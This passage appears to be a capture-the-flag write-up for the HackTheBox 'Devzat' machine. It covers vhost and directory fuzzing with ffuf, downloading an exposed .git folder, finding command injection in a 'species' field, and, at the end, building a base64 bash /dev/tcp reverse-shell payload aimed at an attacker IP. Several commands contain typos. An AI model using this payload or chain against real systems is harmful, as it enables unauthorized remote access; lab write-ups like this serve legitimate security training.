 ![gobuster](https://user-images.githubusercontent.com/104053455/177005800-8c64c757-147c-4063-b390-5054c1b2565c.png)

### 4. Fuff scanning :
command:*fuff - w /usr/share/seclists/Discovery/DNS/subdomains-topmillion- 5000.txt -mc 200 -c -u https://devzat.htb/ -H "HOST: FUZZ.devzat.htb"*</br>
After scanning, we get to know that vhost pets (website) and need to add this to the localhost file.

![hosts](https://user-images.githubusercontent.com/104053455/177005838-c1004173-7e14-4a0a-b257-4f2e6d447a59.jpg)

scanning web directory *pets.devzat.htb*:</br>
Command : *ffuf -u http: //pets.devzat.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content-raft-small- words.txt -fs 510*

### 5. Git source code enumeration :</br>
Here we needed to go through each directory to find the git file and download it.</br>
Command : *wget -r -np -R "index.html*" http://pets.devzat.htb/.git</br> and filename is *pets.devzat.htb*

![git downlad](https://user-images.githubusercontent.com/104053455/177006070-9f62b5a3-ebb1-4c55-b040-79fe29d8fe5e.jpg)

After downloading, go through the directories and check for the git status using the command *git status* :

![git status](https://user-images.githubusercontent.com/104053455/177006099-0ac7cabf-a771-48d4-bc64-065437429909.jpg)

And here many files have been deleted, so we need to restore them.</br> the command used to restore: *git restore .*

![git restore](https://user-images.githubusercontent.com/104053455/177006138-8b835bcc-7634-462b-9a64-96f1995db5a5.jpg)

Here let's go through the file called main.go </br>
command : *cat main.go* [ command used to view the content inside the file]

![main go](https://user-images.githubusercontent.com/104053455/177006193-bfaa30b4-b11b-4010-afc6-33356652c225.jpg)
![main go2](https://user-images.githubusercontent.com/104053455/177006228-7d2a67d3-970f-4bc6-a918-d87689fbe3f6.jpg)

After going through the file, we get to know that the website pets.devzat.htb has command injection vulnerable [ command injection is possible in species]

### 6. Using Wireshark :</br>
Wireshark result to show vulnerable by capturing the icmp echos

![wireshark](https://user-images.githubusercontent.com/104053455/177006279-10bcf756-598f-414e-b22f-d40083e0c054.png)

### 7. Getting reverse shell :</br>
For gaining access to reverse shell, we need to make a payload using the following command.</br>
Command : *echo -n 'bash -I>&/dev/tcp/10.10.14.84/9001 0>&1' | base64*

![geting rev](https://user-images.githubusercontent.com/104053455/177006330-5cf29430-a679-4c2a-98d1-a4c758602c39.jpg)
